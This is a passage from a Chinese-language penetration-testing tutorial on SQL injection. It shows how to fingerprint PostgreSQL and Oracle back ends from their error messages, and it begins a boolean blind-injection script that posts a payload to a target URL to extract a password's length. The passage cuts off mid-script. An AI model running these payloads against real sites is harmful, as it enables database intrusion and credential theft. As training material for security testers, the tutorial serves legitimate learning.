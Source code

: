 ```
Query failed: ERROR: syntax error at or near
“'” at character 56 in /www/site/test.php on line 121.

```

有趣的是，对于 SQL 中经常出现的语法错误，唯一经常使用`syntax`这个词的解决方案是`PostGRES,`，它允许我们使用它作为区别词：

```
elif “syntax error” in first.text.lower():
  print “Injectable PostGRES detected”
```

我们检查的最后一个系统是 Oracle。Oracle 的错误消息示例如下：

```
ORA-00933: SQL command not properly ended

```

ORA 是大多数 Oracle 错误的前缀，因此可以在此处用作标识符。只有少数附带情况下，非 ORA 错误消息会应用于尾随勾号：

```
elif “ORA” in first.text.lower():
  print “Injectable Oracle detected”
```

在这些都不适用的情况下，我们有一个最终的`else`语句，声明该参数不可注入，并且在选取该参数时出错。

以下屏幕截图显示了一个示例输出：

![How it works…](graphics/B04044_04_02.jpg)

## 还有更多…

将此脚本与[第 1 章](18.html "Chapter 1. Gathering Open Source Intelligence")中的蜘蛛*收集开源情报*相结合，将有助于快速有效地识别网页中的可注入 URL。识别要注入的参数的方法是必要的，在大多数情况下，可以通过简单的正则表达式操作来实现。

奥迪-1 制作了一套有用的 SQLi 测试页面，可在[找到 https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs) 。

# 利用布尔 SQLi

有时候，你从一个页面上只能得到一个“是”或“否”。这让人心碎，直到你意识到这就是说“我爱你”的 SQL 等价物。根据您的耐心程度，所有 SQLi 都可以分解为是或否问题。

我们将创建一个脚本，该脚本接受一个`yes`值和一个 URL，并根据预定义的攻击字符串返回结果。我已经提供了一个示例攻击字符串，但这将根据您正在测试的系统而改变。

## 怎么做…

以下脚本是您的脚本的外观：

```
import requests
import sys

yes = sys.argv[1]

i = 1
asciivalue = 1

answer = []
print “Kicking off the attempt”

payload = {'injection': '\'AND char_length(password) = '+str(i)+';#', 'Submit': 'submit'}

while True:
  req = requests.post('<target url>' data=payload)
  lengthtest = req.text
  if yes in lengthtest:
```